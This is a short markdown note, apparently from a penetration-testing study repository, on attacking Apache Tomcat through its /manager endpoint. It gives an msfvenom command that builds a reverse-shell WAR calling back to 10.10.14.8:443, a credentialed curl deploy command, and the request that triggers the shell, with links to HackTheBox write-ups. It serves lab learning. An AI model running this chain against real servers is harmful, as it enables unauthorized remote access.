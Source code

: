# Attacking Tomcat

Apache Tomcat is a Java-based web application stack that was very popular 20 years ago and is still used in legacy environments where applications have been built on Jakarta Server Pages (JSP), also known as JavaServer Pages. Tomcat is three components: Catalina, the servlet container, Coyote, its HTTP connector, and Jasper which is the core JSP engine. Tomcat is still under active development in 2024.

## Privileged Endpoints

The `/manager` and `/host-manager` endpoints are special. The first one can be used to upload a malicious web application archive, or WAR file. Guessing common credentials can easily lead to RCE. If the system has a Local File Inclusion (LFI) vulnerability, plaintext credentials for one or both of those administrative endpoints are potentially readable.

## Remote Code Execution

### Web Application Archive (WAR) File

With credentials for the `/manager` endpoint, an attacker may upload a malicious Web Application Archive (WAR) file. Such a file can easily be generated using `msfvenom`, as in this example:

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war
```

### Uploading a WAR File

This file can be uploaded from the command line, assuming valid credentials for the `/manager/text` endpoint:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://target:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]

```

Then, trigger the reverse shell:

```text
$ curl http://target:8080/hax
```

## Examples

- [HackTheBox Jerry](htb-jerry-20240904.md) is a target using default credentials which can be used to upload a malicious WAR file for a foothold.
- [HackTheBox Tabby](htb-tabby-20240809.md) demonstrates discovery of the `tomcat-users.xml` file (via [LFI](dvwa-exploiting-lfi-20240522.md)) which contains sensitive credentials which are used to access the `/manager/text/deploy` to deploy a malicious WAR for RCE.
